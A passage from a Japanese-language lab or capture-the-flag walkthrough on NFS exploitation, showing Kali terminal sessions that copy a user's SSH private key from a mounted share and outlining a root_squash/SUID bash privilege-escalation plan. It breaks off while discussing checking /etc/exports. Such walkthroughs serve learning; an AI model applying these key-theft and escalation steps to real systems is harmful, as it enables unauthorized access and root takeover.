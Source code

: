```bash
-rw-r--r-- 1 kali kali    0  4月 22  2020 .sudo_as_admin_successful

```
`.ssh`などがあることから、おそらく`cappucino`の`カレントホームディレクトリ`なんだろうと思料  
`.ssh`の中の公開鍵方式の鍵は使えるのでダウンロードしておく。  
  ついでにいつでも使えるように`id_rsa`の方には権限`600`を付与しておく。
```bash
┌──(kali㉿kali)-[/tmp/mount]
└─$ cd cappucino/.ssh
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ ls -al          
合計 20
drwx------ 2 kali kali 4096  4月 22  2020 .
drwxr-xr-x 5 kali kali 4096  6月  4  2020 ..
-rw------- 1 kali kali  399  4月 22  2020 authorized_keys
-rw------- 1 kali kali 1679  4月 22  2020 id_rsa
-rw-r--r-- 1 kali kali  399  4月 22  2020 id_rsa.pub
```
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ cp id_rsa ~/Desktop/NFS 
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ cp id_rsa.pub ~/Desktop/NFS
```
```bash
┌──(kali㉿kali)-[/tmp/mount/cappucino/.ssh]
└─$ chmod 600 ~/Desktop/NFS/id_rsa 
```
  
## 4.実　行：権限昇格/root_squashの設定不備の付く権限昇格
ここまで取得してきたものを権限昇格を実施してみる。  
当初の計画は以下の通り、
- `root_squash`がオフになっているかどうか偵察
- ターゲットの`/bin/bash`をローカルに配送
- `/bin/bash`を共有ディレクトリに配送
- `/bin/bash`を`rootオーナー`に変える
- `/bin/bash`に`SUID`を設定共有
- `ssh`で侵入
- `bash`を起動
  
では、実際にやってみる。  
  
### 4-1.`root_squash`がオフになっているかどうか偵察
`root_squash`がオフとは、つまり`no_root_squash`が設定ファイルに設定されているかということ。つまり、`no_root_squash`が設定されていると`root_squash`はオフの状態なのである。  
これを確認する方法は2つあると思った。  
  
#### O-1：`/etc/exports`を確認
`/etc/exports`とは、NFSサーバーの設定を記載するファイルである。つまるところ、`no_root_squash`の設定はここに記載されている。  
これを確認するには、一度sshでログインしてみれば実際に見てみればよい。不安要素としてはユーザに設定ファイルをのread権限がないことと、もし`ssh`や`リバースシェル`などを`初期侵入`が出来ていないときは実行できないということだろう。  
  